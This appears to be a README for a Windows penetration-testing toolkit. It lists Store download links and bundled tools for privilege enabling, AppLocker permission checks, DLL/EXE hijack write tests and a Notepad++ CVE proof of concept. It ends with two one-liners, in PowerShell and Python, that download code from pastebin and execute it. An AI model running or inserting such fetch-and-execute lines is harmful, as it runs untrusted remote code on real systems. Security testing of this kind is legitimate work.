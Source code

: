 
### Copies of bins for download 

The Python Embeddable 3.11.0 for the .tar
https://www.python.org/downloads/windows/


##### DD Deeplinks for the MS store rollback
ESRB [E] Everyone ratings will work in most cases - however ESRB Teen [T] and other ratings may be restricted.  
Most social media type apps will be Teen [T]  

[E] [x64dbg] - https://get.microsoft.com/installer/download/9PGJGD53TN86  
[E] [Python3.11] - https://get.microsoft.com/installer/download/9NRWMJP3717K  
[E] [Microsoft PowerToys] - https://get.microsoft.com/installer/download/XP89DCGQ3K6VLD  
[3] [PowerShell 7] - https://get.microsoft.com/installer/download/9MZ1SNWT0N5D  
[3] [PowerShell Preview] - https://get.microsoft.com/installer/download/9P95ZZKTNRN4  
[T] [TikTok - PSPF restricted] - https://get.microsoft.com/installer/download/9NH2GPH4JZS4  
[3] [DevToys] - https://get.microsoft.com/installer/download/9PGCV4V3BK4W  
[E] [Windows App] - https://get.microsoft.com/installer/download/9N1F85V9T8BN  
[E] [Splastop Business] - https://get.microsoft.com/installer/download/9NKVM63J25PB  
[E] [RealVNC Viewer] - https://get.microsoft.com/installer/download/XP99DVCPGKTXNJ  

#### Details
- The `1package.tar` and `2package.tar` are the Prowler `.whl` files for Python portable install
- The `Certify.exe` is what it says
- The `.Appx` are for the MS Store and `1b765123-a5ce-4bd0-9c0f-9b0b8cc76095` is the store
- The `SoAudit.exe` is the auditing tool, Alpha release only so far
- The `TokenPriv.ps1` is for Admin use to enable different privs in the session as needed
- The `gpg-debs.tar` is the set of deb files for installing gpg on minimal Kali, required when apt is not keyed yet
- `odapplockprivs.exe` is for default AppLocker paths checking for any wild files with privs for Everyone user
- `fulloddapplockerprivs.exe` is a full user group check in AppLocker paths for privs - users are; Everyone, Users, Authenticated Users and Guests
- `Processhacker` is the official binary
- `python` is the official embed 3.11.0 release
- `regsvr32.c` and the related `.exe` is a source code for poc testing the NoptePad++ CVE from 2025
- `scriptfile2.js` is a write test, check comments in the file
- `whl.ps1` is a helper file to unpack `.whl` files to a location - specifically the .tar files `1package.tar` and `2package.tar` but can be for any large `.whl` sets obv. 
- `JackWrite.dll` is a file write test for missing .dlls
- `JackWriteExe.exe` is a file write test for missing .exes

### String POCs

IEX Calc POC
```iex ((Invoke-WebRequest 'https://pastebin.com/raw/Gnb4K1Qq').Content)```

Subprocess Calc POC
```import urllib.request
url = "https://pastebin.com/raw/kFzy7JT5"
response = urllib.request.urlopen(url)
code = response.read().decode()
exec(code)
